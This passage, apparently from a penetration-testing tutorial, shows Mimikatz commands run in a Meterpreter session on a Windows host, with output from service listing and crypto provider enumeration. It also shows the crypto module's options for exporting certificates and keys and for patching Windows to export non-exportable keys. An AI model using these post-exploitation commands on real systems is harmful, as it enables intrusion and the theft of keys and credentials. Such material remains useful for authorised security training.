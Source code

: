 From these options, let's use the listing module.

```bash
meterpreter > mimikatz_command -f service::list
...snip...
 WIN32_SHARE_PROCESS STOPPED RemoteRegistry Remote Registry
 KERNEL_DRIVER RUNNING RFCOMM Bluetooth Device (RFCOMM Protocol TDI)
 WIN32_OWN_PROCESS STOPPED RpcLocator Remote Procedure Call (RPC) Locator
 980 WIN32_OWN_PROCESS RUNNING RpcSs Remote Procedure Call (RPC)
 WIN32_OWN_PROCESS STOPPED RSVP QoS RSVP
 760 WIN32_SHARE_PROCESS RUNNING SamSs Security Accounts Manager
 WIN32_SHARE_PROCESS STOPPED SCardSvr Smart Card
 1124 WIN32_SHARE_PROCESS RUNNING Schedule Task Scheduler
KERNEL_DRIVER STOPPED Secdrv Secdrv
1124 INTERACTIVE_PROCESS WIN32_SHARE_PROCESS RUNNING seclogon Secondary Logon
1804 WIN32_OWN_PROCESS RUNNING Secunia PSI Agent Secunia PSI Agent
3460 WIN32_OWN_PROCESS RUNNING Secunia Update Agent Secunia Update Agent
...snip...
```

## Crypto Module

Let's look at the crypto module and options provided by Mimikatz.

```bash
meterpreter > mimikatz_command -f crypto::
Module : 'crypto' identifié, mais commande '' introuvable

Description du module : Cryptographie et certificates
listProviders - List les providers installés)
 listStores - List les magasins système
listCertificates - List les certificats
 listKeys - List les conteneurs de clés
exportCertificates - Exporte les certificats
 exportKeys - Exporte les clés
 patchcng - **[**experimental] Patch le gestionnaire de clés pour l'export de clés non exportable
 patchcapi - [experimental] Patch la CryptoAPI courante pour l'export de clés non exportable
```

From these options Let's use the `listProviders` option.

```bash
meterpreter > mimikatz_command -f crypto::listProviders
Providers CryptoAPI:
 Gemplus GemSAFE Card CSP v1.0
 Infineon SICRYPT Base Smart Card CSP
 Microsoft Base Cryptographic Provider v1.0
 Microsoft Base DSS and Diffie-Hellman Cryptographic Provider
 Microsoft Base DSS Cryptographic Provider
 Microsoft Base Smart Card Crypto Provider
 Microsoft DH SChannel Cryptographic Provider
 Microsoft Enhanced Cryptographic Provider v1.0
 Microsoft Enhanced DSS and Diffie-Hellman Cryptographic Provider
 Microsoft Enhanced RSA and AES Cryptographic Provider (Prototype)
 Microsoft RSA SChannel Cryptographic Provider
 Microsoft Strong Cryptographic Provider
```

As you can see from the examples above, there are modules belonging to Mimikatz and their options. I recommend that you gain experience by trying the commands one by one, within a wide range of possibilities.
